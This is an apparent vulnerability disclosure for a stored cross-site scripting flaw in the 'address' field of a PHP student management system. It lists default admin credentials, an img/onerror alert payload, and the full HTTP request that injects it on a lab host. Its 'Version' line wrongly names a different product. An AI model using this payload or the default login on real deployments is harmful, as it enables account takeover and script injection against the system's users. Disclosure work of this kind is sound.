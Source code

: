 # Online student management system  - 'address' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Online student management system  - 'address' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online student management system s' does not filter the content correctly at the "addres" module, resulting in the generation of stored XSS.

#### Payload used:

`<img src="" onerror="alert(111111111)">`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

   

2. Open Page http://192.168.67.10/manage-students.php, Click the button to jump to the editing page.

   ![image-20231218155025560](img/Onlinestudentmanagementsystem(XSS)/image-20231218155025560.png)

   http://192.168.67.10/edit-student-detail.php?editid=1

   ![image-20231218160309450](img/Onlinestudentmanagementsystem(XSS)/image-20231218160309450.png)

   

   

3. Put XSS payload   in the "address"  ;

   send package

   

   ```
   POST /edit-student-detail.php?editid=1 HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data; boundary=---------------------------33710977241900181722413261447
   Content-Length: 1790
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/edit-student-detail.php?editid=1
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuname"
   
   Raghav Jain
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuemail"
   
   raghav@gmail.com
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuclass"
   
   1
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="gender"
   
   Male
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="dob"
   
   2023-02-12
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuid"
   
   FSA-1001
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="fname"
   
   Shantilal
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="mname"
   
   Jiya
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="connum"
   
   9090909090
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="altconnum"
   
   8080808080
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="address"
   
   <img src="" onerror="alert(111111111)">
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="uname"
   
   raghav@gmail.com
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="password"
   
   1b89744e90c7de7e76f25f281b924f44
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="submit"
   
   
   -----------------------------33710977241900181722413261447--
   
   ```

   

   


4. back to http://192.168.67.10/edit-student-detail.php?editid=1 We can see the alert.;

   

   ![image-20231218155743009](img/Onlinestudentmanagementsystem(XSS)/image-20231218155743009.png)

   

